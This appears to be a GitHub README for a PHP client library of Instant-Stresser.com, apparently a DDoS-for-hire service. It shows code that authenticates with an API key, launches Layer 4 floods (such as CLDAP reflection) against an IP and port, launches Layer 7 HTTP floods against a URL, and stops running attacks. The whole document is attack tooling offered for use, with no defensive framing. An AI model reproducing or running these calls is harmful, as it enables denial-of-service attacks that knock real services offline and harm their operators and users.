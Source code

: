 # Instant-Stresser-API
Sample API usage of Instant-Stresser.com

## Requirements
PHP version 5.x (+).<br/>
Libcurl package.

## L4/L7 Methods Syntaxe
Available here : https://instant-stresser.com/help/methodsdoc

## Authentication
```php
require 'InstantStresserAPI.php';
// UserID and API Key generated from API Manager website.
$api = new InstantStresser\InstantStresserApi("UserID", "your-apikey");
```

## Layer 4 Attack
```php
/* Parameters : IPv4 , Port , Time , Method , Slots, PPS */
$response = $api->startL4("1.1.1.1", 80, 15, "CLDAP", 1, 100000);
```
## Layer 7 Attack
```php
/* Parameters : URL , Time , Method , Slots , Type, Ratelimit (true = enable, false = disabled) */
$response = $api->startL7("https://example.com/", 15, "HTTP1", 1, "GET", false);
```
## Stop Attack
```php
/* Parameters : Host. */
$response = $api->stop("1.1.1.1");
echo $response; // Get API response.
```
